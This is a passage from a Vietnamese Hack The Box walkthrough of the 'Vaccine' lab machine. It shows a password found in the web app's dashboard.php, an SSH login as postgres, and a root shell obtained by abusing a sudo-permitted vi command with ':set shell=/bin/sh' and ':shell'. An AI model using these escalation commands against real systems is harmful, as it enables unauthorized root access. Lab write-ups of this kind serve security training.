 ##### + Biết rằng các file của web sẽ thường được lưu trong `/var/www/html` và vì sử dụng PHP và SQL nên sẽ có thông tin của người dùng dưới dạng văn bản để kiếm tra input.
##### + Trong file dashboard.php:
![image](https://github.com/WildSaul/HTB_StartingPoint_FreeMachines_AllTiers/assets/155133173/bf18542b-50dd-403a-8362-cb4caf16e3af)
##### -> password: _P@s5w0rd!_
#### 3.3 SSH & Privillege Escaltion:
##### + Biết được tên người dùng, mật khẩu nên ta sẽ sử dụng ssh thay vì netcat 
###### Netcat kết nối đôi khi bị ngắt và thao tác phức tạp hơn.
` ssh postgres@10.129.195.218 `
##### + Sau khi ssh thành công, xem quyền của user: `sudo -l`
##### -> user có quyền chạy lệnh sudo /bin/vi /etc/postgresql/11/main/pg/hba.conf  trên target Vaccine
##### + Đây là một lỗ hổng khi một chương trình được root cho phép chạy dưới dạng ‘sudo’ thì chương trình đó có thể được sử dụng để truy cập, mod vào các file không được phép.
###### Tham khảo thêm về lỗ hổng này: https://gtfobins.github.io/gtfobins/vi/#sudo
##### + sử dụng lệnh sau để mở shell với quyền superuser (root):
`sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf -c ‘ :!/bin/sh’ /dev/null`
##### + Lệnh trên không được chương trình cho phép nên sẽ sử dụng lệnh thay thế: 
```
vi pg_hba.conf
	:set shell=/bin/sh
	:shell
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```
![image](https://github.com/WildSaul/HTB_StartingPoint_FreeMachines_AllTiers/assets/155133173/bb261c67-9036-454d-978a-d1e68bd6ffea)
##### + set lệnh set shell tương tự và sau khi bấm Enter sẽ hiển thị về màn hình terminal với vai trò root :
```
# whoami
root
# 
```
##### -> Privillege escaltion thành công!
###### flag của root nằm trong /root




